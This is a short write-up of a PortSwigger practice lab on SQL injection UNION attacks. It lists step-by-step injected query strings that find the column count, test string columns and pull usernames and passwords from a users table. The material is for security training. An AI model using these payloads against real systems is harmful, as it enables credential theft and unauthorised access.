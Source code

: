 ```yaml
---
title: PortSwigger - SQLi 5 - UNION attack, retrieving data from other tables
date: 2023-03-06
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

The database contains a new table called `users` with columns `username` and `password` inside.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test if both contain string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT 'abc','abc'--   # works
````

We are now sure both columns contain string. We can try to extract the data in users table:

````text
<website>/filter?category=Pets' UNION SELECT username, password FROM users--
````

The usernames and passwords are displayed.
